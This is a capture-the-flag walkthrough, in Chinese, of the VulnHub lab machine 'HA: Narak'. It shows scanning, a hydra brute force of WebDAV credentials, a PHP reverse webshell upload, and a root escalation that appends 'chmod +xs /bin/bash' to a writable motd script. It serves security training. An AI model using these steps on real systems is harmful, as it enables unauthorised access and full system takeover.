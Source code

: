 # HA：Narak

2024-6-11 https://www.vulnhub.com/entry/ha-narak,569/

difficulty: medius

## IP

192.168.5.34

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 71bd592d221eb36b4f06bf83e1cc9243 (RSA)
|   256 f8ec45847f2933b28dfc7d07289331b0 (ECDSA)
|_  256 d09436960480331040683221cbae68f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA: NARAK
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

```
gobuster -t 32 dir -u http://192.168.5.34/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html,zip -e

http://192.168.5.34/tips.txt             (Status: 200) [Size: 58]
http://192.168.5.34/index.html           (Status: 200) [Size: 2998]
http://192.168.5.34/images               (Status: 301) [Size: 313] [--> http://192.168.5.34/images/]
http://192.168.5.34/webdav               (Status: 401) [Size: 459]
```

http://192.168.5.34/tips.txt : Hint to open the door of narak can be found in creds.txt.

creds.txt 在根目录中没有，http://192.168.5.34/images/666.jpg 有个跟其他图片不一样的，下载后，看看是否有图片隐写，没发现有隐写。

http://192.168.5.34/webdav 需要 hettp basic 认证，但是目前没有用户名和密码，尝试用 cewl 收集用户名和密码，然后爆破看看能不能行：

```
cewl -d 5 'http://192.168.5.34' -w pass.txt

hydra -t 20 -L pass.txt -P pass.txt 192.168.5.34 http-get /webdav/

[80][http-get] host: 192.168.5.34   login: yamdoot   password: Swarg
```

发现用户凭据 yamdoot:Swarg, 登陆后发现是一个空目录。

使用 cadaver 上传 webshell:

```
cadaver http://192.168.5.34/webdav/
dav:/webdav/> put 5.3/8888.php
Uploading 5.3/8888.php to `/webdav/8888.php':
Progress: [=============================>] 100.0% of 5495 bytes succeeded.
```

这时已经能看到上传的 8888webshell，在 kali 上监听 8888 端口，然后触发这个 php web shell 反弹。

进行系统枚举，home 目录下发现 3 个用户：

```
www-data@ubuntu:/home$ ls
inferno  narak	yamdoot
```

在 /home/inferno 下 发现 user flag:

```
www-data@ubuntu:/home/inferno$ cat user.txt
Flag: {5f95bf06ce19af69bfa5e53f797ce6e2}
```

其他的 sudo、suid、getcap、crontab 中都没有发现提示。根据最开始的 tips.txt 有一个 creds.txt 文件，看看能不能搜索到：

```
www-data@ubuntu:/var/spool/cron$ find / -name 'creds*' 2>/dev/null
/mnt/karma/creds.txt
```

查看 /mnt/karma/creds.txt:

```
eWFtZG9vdDpTd2FyZw==
```

进行 base64 解码，得到 yamdoot:Swarg 跟前面爆破出来的一样。

进行后续枚举，发现了 /etc/update-motd.d 这个目录里面的文件具有修改权限：

```
echo "chmod +xs /bin/bash" >> /etc/update-motd.d/00-header
```

现在需要找到一个能够登陆 ssh 的用户，来触发这个 motd.

linpeas 发现 /mnt/hell.sh 内容：

```
www-data@ubuntu:/tmp$ cat /mnt/hell.sh
#!/bin/bash

echo"Highway to Hell";
--[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.
```

进行 brainfuck 解码: chitragupt 应该是某个用户的密码。经过测试，发现是 inferno 的密码，尝试 ssh 登陆，就能触发 motd，这时/bin/bash 已经是 suid 权限：

```
www-data@ubuntu:/etc/update-motd.d$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  4  2018 /bin/bash
www-data@ubuntu:/etc/update-motd.d$ /bin/bash -p
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
██████████████████████████████████████████████████████████████████████████████████████████
█░░░░░░██████████░░░░░░█░░░░░░░░░░░░░░█░░░░░░░░░░░░░░░░███░░░░░░░░░░░░░░█░░░░░░██░░░░░░░░█
█░░▄▀░░░░░░░░░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░▄▀▄▀▄▀▄▀▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░░░░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░████░░▄▀░░███░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█████░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░██░░░░░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░░░░░██████████░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░█
██████████████████████████████████████████████████████████████████████████████████████████


Root Flag: {9440aee508b6215995219c58c8ba4b45}

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/hackinarticles

Jeenali Kothari  : https://www.linkedin.com/in/jeenali-kothari/

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
__________________________________
```
